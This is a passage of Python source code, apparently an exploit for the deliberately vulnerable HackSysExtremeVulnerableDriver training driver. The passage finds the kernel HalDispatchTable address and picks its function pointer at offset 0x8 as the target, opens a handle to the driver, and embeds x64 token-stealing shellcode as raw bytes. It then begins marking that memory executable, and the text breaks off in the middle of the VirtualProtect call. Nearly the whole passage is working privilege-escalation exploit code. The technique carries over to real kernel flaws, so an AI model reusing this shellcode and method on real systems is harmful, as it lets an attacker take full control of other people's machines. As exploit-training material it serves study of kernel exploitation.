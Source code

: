 ```python
    if not kern_handle:
        print("[!] LoadLibrary failed to retrieve handle to kernel with error: {}".format(str(GetLastError())))
        sys.exit(1)
    print("[*] Kernel Handle: {}".format(hex(kern_handle))[:-1])

    userland_hal = kernel32.GetProcAddress(kern_handle,"HalDispatchTable")
    if not userland_hal:
        print("[!] GetProcAddress failed with error {}".format(str(GetLastError())))
        sys.exit(1)
    print("[*] Userland HalDispatchTable Address: {}".format(hex(userland_hal))[:-1])

    kernel_hal = userland_hal - kern_handle + int(kernel_base,16)
    printable_hal = hex(kernel_hal)
    if printable_hal[-1] == "L":
        printable_hal = printable_hal[:-1]
    print("[*] Kernel HalDispatchTable Address: {}".format(printable_hal))

    target_hal = kernel_hal + 0x8    
    print("[*] Target HalDispatchTable Function Pointer at: {}".format(hex(target_hal)[:-1]))

    return target_hal    

def send_buf(target_hal):

    hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
    if (not hevd) or (hevd == -1):
        print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
        sys.exit(1)
    else:
        print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

    
    shellcode = bytearray(
        "\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00"
        "\x48\x8B\x40\x70\x48\x89\xC1\x49\x89\xCB\x49\x83\xE3\x07\xBA\x04"
        "\x00\x00\x00\x48\x8B\x80\x88\x01\x00\x00\x48\x2D\x88\x01\x00\x00"
        "\x48\x39\x90\x80\x01\x00\x00\x75\xEA\x48\x8B\x90\x08\x02\x00\x00"
        "\x48\x83\xE2\xF0\x4C\x09\xDA\x48\x89\x91\x08\x02\x00\x00\x5A\x41"
        "\x5B\x59\x58\xc3")

    print("[*] Allocating shellcode character array...")
    try:
        usermode_addr = (c_char * len(shellcode)).from_buffer(shellcode)
        ptr = addressof(usermode_addr)
    except Exception as e:
        print("[!] Failed to allocate shellcode char array with error: " + str(e))
    print("[*] Allocated shellcode character array at: {}".format(hex(ptr)[:-1]))

    print("[*] Marking shellcode RWX...")
    result = kernel32.VirtualProtect(
        usermode_addr,
        c_int(len(shellcode)),
        c_int(0x40),
```